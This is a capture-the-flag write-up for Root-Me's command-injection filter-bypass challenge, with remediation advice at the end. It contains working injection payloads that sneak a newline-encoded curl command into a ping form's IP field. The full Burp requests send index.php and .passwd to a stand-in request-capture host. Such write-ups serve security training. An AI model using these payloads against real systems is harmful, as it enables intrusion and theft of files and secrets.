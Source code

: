 ## Root-Me.org Challenge Write-Up: Command Injection - Filter Bypass
`https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass`

**Challenge Description:** This challenge involves a web service that accepts an IP address via a POST request and pings it. The goal is to exploit a command injection vulnerability in this service and retrieve the flag stored in the `index.php` file. Various protections are in place, making it necessary to bypass these filters.

### Step-by-Step Solution

#### Step 1: Initial Interaction

1. **Submit an IP Address**:
   - The webpage provides an input box to enter an IP address.
   - Input a simple IP address, such as `127.0.0.1`, and submit to see the expected behavior. This will send a POST request to the server to ping the provided IP address.

#### Step 2: Analyzing Server Response

1. **Capture the Request**:
   - Use a tool like Burp Suite to capture the HTTP request sent when the IP address is submitted.
   - This helps in understanding the structure of the request and how the server processes it.

2. **Inspect the Response**:
   - Check the server's response to understand how it handles the ping command.
   - Typically, a successful ping will result in a "Ping OK" message, while a failed attempt will result in "Ping NOK".

#### Step 3: Identifying Potential Injection Points

1. **Attempt Basic Injection**:
   - Try injecting a simple command to see if the server is vulnerable.
   - For example, submit `127.0.0.1; ls` and check the response. If the server is vulnerable, it may include the output of the `ls` command.

2. **Analyze the Injection Point**:
   - If the basic injection works, note that the server is vulnerable to command injection.

#### Step 4: Crafting a Payload to Bypass Filters

1. **Bypass Basic Filters**:
   - The server may have basic filters to prevent command injection. Commonly filtered characters include `;`, `|`, `&`, and newline characters.
   - Use URL encoding to bypass these filters. For example, `%0a` represents a newline character in URL encoding.

2. **Constructing a Malicious Payload**:
   - Use a payload that reads the content of the `index.php` file and sends it to an external server you control.
   - Example payload: `127.0.0.1;%0a$(curl -d @index.php https://your-server.com)`

#### Step 5: Using Burp Suite to Send the Payload

1. **Intercepting the Request**:
   - Open Burp Suite and ensure Intercept is on.
   - Submit a dummy IP address in the form to capture the request.

2. **Modifying the Request**:
   - In Burp Suite, find the intercepted request and send it to the Repeater.
   - Modify the `ip` parameter to include the injection payload:
     ```plaintext
     ip=127.0.0.1;%0acurl -d @index.php https://your-server.com
     ```

3. **Send the Request**:
   - Click "Send" in the Repeater tab.
   - Check your external server for incoming requests containing the contents of `index.php`.

### Detailed Exploit Example

**Request in Burp Suite**:
```plaintext
POST /web-serveur/ch53/index.php HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

ip=127.0.0.1;%0acurl -d @index.php https://your-requestbin-url.com
```

### Understanding the Results

After sending the request, check your request capture service (like RequestBin). You should see a request containing the contents of `index.php`. This file includes the code of the webpage, revealing any other potential vulnerabilities or important information like the flag.

**Example Captured Data**:
```plaintext
<?php
// Content of index.php
$flag = "".file_get_contents(".passwd")."";
...
?>
```

From this, you can infer that the flag is stored in a file named `.passwd`.

### Retrieving the Flag

1. **Crafting the Final Payload**:
   - Now that you know the flag is in `.passwd`, modify your payload to read this file.
   - Example payload: `127.0.0.1;%0acurl -d @.passwd https://your-server.com`

2. **Send the Modified Payload**:
   - Intercept and modify the request as previously described, this time with the new payload to read `.passwd`.

**Modified Request**:
```plaintext
POST /web-serveur/ch53/index.php HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

ip=127.0.0.1;%0acurl -d @.passwd https://your-requestbin-url.com
```

### Understanding the Results

Check your request capture service again. You should now see a request containing the contents of `.passwd`, which includes the flag.

**Example Captured Data**:
```plaintext
flag{example_flag_content}
```

### Remediation

To prevent this vulnerability, the application should:

1. **Use Parameterized Commands**: Avoid directly including user inputs in shell commands. Use parameterized commands or safer alternatives.
2. **Strict Input Validation**: Implement comprehensive validation to ensure only valid IP addresses are accepted.
3. **Escape User Inputs**: Properly escape any user input if it must be included in shell commands.

### Key Takeaways

- **Command Injection**: Command injection vulnerabilities can be exploited by carefully crafting inputs that manipulate the command execution flow.
- **Filter Bypass**: Simple filters can often be bypassed using less common characters or encoding techniques.
- **Request Interception and Modification**: Tools like Burp Suite are essential for testing and exploiting web vulnerabilities.
- **External Data Exfiltration**: Using tools like `curl` to send data to an external server can help in capturing and analyzing sensitive information.

This write-up provides a comprehensive approach to understanding and solving the "Command Injection - Filter Bypass" challenge on Root-Me.org.
